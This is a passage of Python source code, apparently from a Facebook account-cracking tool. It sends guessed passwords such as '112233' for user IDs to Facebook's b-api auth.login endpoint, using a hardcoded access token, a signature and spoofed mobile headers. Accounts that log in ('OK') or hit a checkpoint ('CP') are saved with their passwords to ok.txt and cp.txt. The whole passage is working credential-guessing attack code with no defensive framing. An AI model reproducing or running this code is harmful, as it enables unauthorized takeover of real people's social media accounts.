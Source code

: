 												ok.write(uid+"|"+pass5+"\n")

												ok.close()

												oks.append(uid+pass5)

											else:

												if "www.facebook.com" in data.json()['error_msg']:

													print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass5+"\033[0;97m")

													cp = open("cp.txt", "a")

													cp.write(uid+"|"+pass5+"\n")

													cp.close()

													cps.append(uid+pass5)

												else:

													pass6 = "112233"

													api = 'https://b-api.facebook.com/method/auth.login'

													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

													data = requests.get(api, params=params, headers=headers_)

													if "access_token" in data.text and "EAAA" in data.text:

														print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass6+"\033[0;97m")

														ok = open("ok.txt", "a")

														ok.write(uid+"|"+pass6+"\n")

														ok.close()

														oks.append(uid+pass6)

													else:

														if "www.facebook.com" in data.json()['error_msg']:

															print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass6+"\033[0;97m")

															cp = open("cp.txt", "a")

															cp.write(uid+"|"+pass6+"\n")

															cp.close()

															cps.append(uid+pass6)

														else:
